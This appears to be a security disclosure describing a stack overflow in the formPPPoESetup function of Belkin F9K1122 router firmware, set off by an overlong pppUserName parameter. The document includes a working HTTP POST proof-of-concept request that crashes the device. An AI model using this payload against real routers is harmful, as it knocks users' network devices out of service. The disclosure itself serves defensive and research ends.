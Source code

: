 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formPPPoESetup` function, `pppUserName` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `pppUserName` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `pppUserName` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `pppUserName` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/formPPPoESetup HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 552
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

submit-url=&pppConnect=&pppConnect1=&pppDisconnect=&pppDisconnect1=&wanMode=&pppServName=&pppMTU=&pppUserName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&pppPassword=&pppConnectType=&pppIdleTime=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
